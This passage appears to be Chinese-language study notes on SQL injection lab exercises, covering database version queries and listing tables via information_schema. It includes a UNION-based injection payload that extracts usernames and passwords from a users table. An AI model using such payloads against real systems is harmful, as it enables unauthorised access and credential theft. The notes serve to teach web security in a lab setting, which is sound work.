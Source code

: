看不清，搞一个分隔符

```
Gifts' union select 1, username || '~' || password from users--+
```

![image-20250627001043143](assets/image-20250627001043143.png)

## 6、SQL injection attack, querying the database type and version on MySQL and Microsoft

查数据库版本，根据数据库的不同 语法也不同

| Microsoft, MySQL | `SELECT @@version`        |
| ---------------- | ------------------------- |
| Oracle           | `SELECT * FROM v$version` |
| PostgreSQL       | `SELECT version()`        |

## 7、SQL injection attack, listing the database contents on non-Oracle databases

它给的知识：

多数数据库（除了Oracle）都有一个叫做information schema的东西，它提供有关数据库的信息。

我们可以查询 `information_schema.tables` 来列出数据库中的表：

```
SELECT * FROM information_schema.tables
```
